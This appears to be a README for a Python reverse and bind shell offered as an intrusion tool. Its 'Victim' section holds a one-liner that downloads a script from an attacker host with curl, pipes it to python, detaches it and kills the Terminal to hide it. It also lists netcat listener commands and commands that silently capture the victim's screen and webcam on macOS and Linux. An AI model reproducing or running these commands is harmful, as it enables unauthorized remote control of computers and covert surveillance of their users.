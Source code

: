 # Honigkuchenpferd-Shell

Simple Reverse and Bind Shell

python2.7 and python3

## Server
```
#reverse shell
nc -lvp 6666

#bind shell
nc <IP> 6666
```

## Victim
```
curl -s http://$IP:$PORT/Honigkuchenpferd.py | /usr/bin/python  & disown; killall Terminal
```

## macOS:
### Selfie
```
screencapture -x /tmp/screenshot.jpg
```
## gnu/linux:
### Screenshot
```
ffmpeg -f x11grab -framerate 1 -i :0.0 -vframes 1 screenshot.jpg
```
### Selfie
```
#Selfie
ffmpeg -f video4linux2 -s 640x480 -i /dev/video0 -ss 0:0:1 -frames 1 /tmp/selfie.jpg
```


